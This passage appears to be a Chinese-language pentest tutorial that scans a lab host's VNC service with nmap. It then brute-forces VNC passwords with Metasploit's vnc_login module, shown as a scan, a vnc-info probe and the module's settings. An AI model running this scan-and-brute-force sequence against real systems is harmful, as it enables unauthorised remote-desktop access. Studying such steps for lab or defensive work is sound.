 扫描目标：

```javascript
msf > db_nmap -sT 192.168.222.147
```

![](/img/hack/vnc/1507710932135.png)

查看vnc信息：

```javascript
nmap -p 5901 -script vnc-info 192.168.222.147
```

![](/img/hack/vnc/1507710989291.png)


## 暴力破解

使用msf的vnc爆破模块进行爆破：

```javascript
msf > use auxiliary/scanner/vnc/vnc_login 

msf auxiliary(vnc_login) > set RHOSTS 192.168.222.147
RHOSTS => 192.168.222.147

msf auxiliary(vnc_login) > set RPORT 5901
RPORT => 5901

msf auxiliary(vnc_login) > set pass_file /root/Desktop/pass.txt
pass_file => /root/Desktop/pass.txt

msf auxiliary(vnc_login) > run

```
